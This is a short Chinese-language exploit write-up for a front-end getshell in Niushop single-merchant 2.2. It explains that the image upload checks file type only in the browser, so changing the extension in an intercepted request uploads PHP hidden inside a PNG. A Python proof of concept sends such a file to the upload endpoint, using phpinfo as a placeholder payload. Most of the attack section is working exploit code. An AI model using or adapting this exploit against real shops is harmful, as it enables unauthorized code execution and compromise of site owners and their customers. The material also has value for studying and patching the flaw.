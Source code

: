 Niushop 单商户 2.2 前台getshell
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

![](./resource/Niushop单商户2.2前台getshell/media/rId24.jpg)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![](./resource/Niushop单商户2.2前台getshell/media/rId25.jpg)

所以导致**前台getshell**

### poc

    import requests

    session = requests.Session()

    paramsGet = {"s":"/wap/upload/photoalbumupload"}
    paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
    paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
    headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
    cookies = {"action":"finish"}
    response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)

参考链接
--------

> https://y4er.com/post/niushop-getshell/
